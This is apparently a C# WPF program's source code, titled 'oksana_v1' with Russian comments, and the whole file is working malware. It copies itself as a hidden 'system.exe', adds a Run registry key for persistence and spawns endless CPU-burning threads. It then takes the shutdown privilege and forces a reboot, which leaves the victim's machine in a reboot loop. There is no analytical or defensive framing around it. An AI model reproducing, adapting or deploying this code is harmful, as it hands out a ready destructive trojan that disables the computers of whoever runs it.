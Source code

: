 # oksana_v1
using JCS;
using Microsoft.Win32;
using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Threading;
using System.Windows;

namespace WpfApplication_OKSANA
{
/// <summary>
/// Логика взаимодействия для MainWindow.xaml
/// </summary>
public partial class MainWindow : Window
{
public static string needPatch = "C:\\Users\\Public\\";

public MainWindow()
{
if (OSVersionInfo.Name == "Windows 7" || OSVersionInfo.Name == "Windows Vista" )
{
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}
else
if (OSVersionInfo.Name == "Windows XP")
{
needPatch = "C:\\Documents and Settings\\All Users\\";
autorun.SetAutorunValue(true, needPatch + "system.exe"); // добавить в автозагрузку
//SetAutorunValue(false, needPatch + "system.exe"); // убрать из автозагрузки
}

InitializeComponent();
}

private void Window_Loaded(object sender, RoutedEventArgs e)
{
if (!File.Exists(needPatch + "system.exe"))
{
try
{
File.Copy("system.exe", needPatch + "system.exe");
File.SetAttributes(needPatch + "system.exe", FileAttributes.Hidden);

}
catch { }
}
start();
}

public static void sys_sleep()
{
while (true)
{
Thread s = new Thread(s_b);
s.Start();
}
}
private static void s_b()
{
int y = 2;
while (true)
{
y *= y;
}
}

public static void start()
{
Stopwatch sw = new Stopwatch();
sw.Start();
bool b = true;
bool pl = false;
while (b)
{
if (sw.ElapsedMilliseconds > 20000)
{
if (!pl)
{
Thread g = new Thread(sys_sleep);
g.Start();
pl = true;
}
}
if (sw.ElapsedMilliseconds > 45000)
{
DoExitWin(EWX_REBOOT);
b = false;
}
}
}



[StructLayout(LayoutKind.Sequential, Pack = 1)]
internal struct TokPriv1Luid
{
public int Count;
public long Luid;
public int Attr;
}
[DllImport("kernel32.dll", ExactSpelling = true)]
internal static extern IntPtr GetCurrentProcess();
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
[DllImport("advapi32.dll", SetLastError = true)]
internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
[DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall,
ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
[DllImport("user32.dll", ExactSpelling = true, SetLastError = true)]
internal static extern bool ExitWindowsEx(int flg, int rea);
internal const int EWX_REBOOT = 0x00000002;
internal const string SE_SHUTDOWN_NAME = "SeShutdownPrivilege";
internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
internal const int TOKEN_QUERY = 0x00000008;
internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;

public static Thread thread1;
public static void DoExitWin(int flg)
{
bool ok;
TokPriv1Luid tp;
IntPtr hproc = GetCurrentProcess();
IntPtr htok = IntPtr.Zero;
ok = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
tp.Count = 1;
tp.Luid = 0;
tp.Attr = SE_PRIVILEGE_ENABLED;
ok = LookupPrivilegeValue(null, SE_SHUTDOWN_NAME, ref tp.Luid);
ok = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
ok = ExitWindowsEx(flg, 0);
}
}

public class autorun
{
public static bool SetAutorunValue(bool autorun, string npath)
{
const string name = "systems";
string ExePath = npath;
RegistryKey reg;

reg = Registry.CurrentUser.CreateSubKey("Software\\Microsoft\\Windows\\CurrentVersion\\Run\\");
try
{
if (autorun)
reg.SetValue(name, ExePath);
else
reg.DeleteValue(name);
reg.Flush();
reg.Close();
}
catch
{
return false;
}
return true;
}
}
}
